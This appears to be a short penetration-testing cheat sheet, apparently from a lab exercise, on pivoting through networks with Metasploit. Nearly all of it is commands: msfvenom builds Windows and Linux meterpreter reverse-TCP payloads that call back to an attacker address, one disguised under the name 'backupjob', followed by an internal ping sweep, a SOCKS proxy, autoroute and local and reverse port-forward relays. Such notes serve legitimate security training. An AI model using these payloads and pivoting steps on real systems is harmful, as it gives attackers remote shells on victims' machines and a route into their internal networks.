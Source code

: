 With MSF we can relay the traffic and also create meterpreter payloads and inject other scans in our process.

Windows:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.183 LPORT=4445 -f exe -o shell.exe
```

Linux:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

```bash
background
```

```bash
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

```bash
use auxiliary/server/socks_proxy
```

```bash
use post/multi/manage/autoroute

run autoroute -s 172.16.5.0/23


###LOCAL TCP RELAY:
portfwd add -l 3300 -p 3389 -r 172.16.5.19

#### RERVERSE TCP RELAY
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```


